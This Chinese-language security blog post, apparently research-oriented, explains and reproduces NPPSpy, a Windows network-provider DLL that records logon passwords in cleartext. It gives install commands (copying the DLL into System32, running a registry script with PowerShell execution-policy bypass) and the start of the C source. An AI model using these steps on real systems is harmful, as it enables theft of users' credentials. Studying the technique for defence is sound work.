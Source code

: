 NPPSpy的深究
=========

0x00 前言
-------

前几天刷 twitter 的时候，发现 `@0gtweet` 大佬发了一个视频，关于 win11 获取明文账户密码的，链接为 <https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy> ，于是复现了一波。但当我打开大佬写的c代码的时候，我大大的脑袋，充满了大大的问号？搜了一圈，没看到有讲原理的文章，于是有了本文。

> 本人知识有限，如果有错误的地方，请各位大佬之处！

![image-20211220001743984](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-967a0d75ad9508d6d7d2908f6c19910fd762c918.png)

0x01 复现（可选）
-----------

在探究其原理前，我们先简单的复现一波。如果有的同学想直接看原理，可以跳过本节。

1. 去 <https://github.com/gtworek/PSBits/tree/master/PasswordStealing> 把 `NPPSPy` 文件夹下载下来
    
    ![image-20211220004138570](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8aeeb4615ffa172cf0e2e8c13c4fda8e59d514fb.png)
2. 用**管理员权限**，把 `NPPSPY.dll` 复制到 `C:\Windows\System32` 目录下
    
    ```bash
    copy .\NPPSPY.dll C:\windows\System32\
    ```
    
    ![image-20211220004028076](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d0ccb926f10998bb4053adefca5bfb9f0ad76ab8.png)
3. 用**管理员权限**，执行 `ConfigureRegistrySettings.ps1` 脚本
    
    ```bash
       powershell.exe -Exec Bypass .\ConfigureRegistrySettings.ps1
    ```
    
    ![image-20211220003947606](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7ab403dc173c78eac5e29b6e6d14b145a6234ab9.png)
4. 注销账户/重启系统，重新登录
5. 在 C 盘下可以看到 `NPPSpy.txt`，里面记录了刚刚登录的账号和密码  
    ![image-20211220003811497](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-feb17e5d63252814039505f8df71359e20963880.png)

0x02 编译（可选）
-----------

这一节内容同样是可选的，如果已经会了的同学，可以直接跳过。

> 编译的方法有两种，一种是作者在readme中写到的，直接用 `cl.exe` ，另一种就是我们平时用vs的动态链接库项目模板了。当然，这两者的前提是，都装了vs。

这里先把`NPPSPy.c`的代码贴出来，代码的具体含义会在后面一一讲解，这里先跳过。

```cpp
#include <Windows.h>

// from npapi.h
#define WNNC_SPEC_VERSION                0x00000001
#define WNNC_SPEC_VERSION51              0x00050001
#define WNNC_NET_TYPE                    0x00000002
#define WNNC_START                       0x0000000C
#define WNNC_WAIT_FOR_START              0x00000001

//from ntdef.h
typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// from NTSecAPI.h
typedef enum _MSV1_0_LOGON_SUBMIT_TYPE
```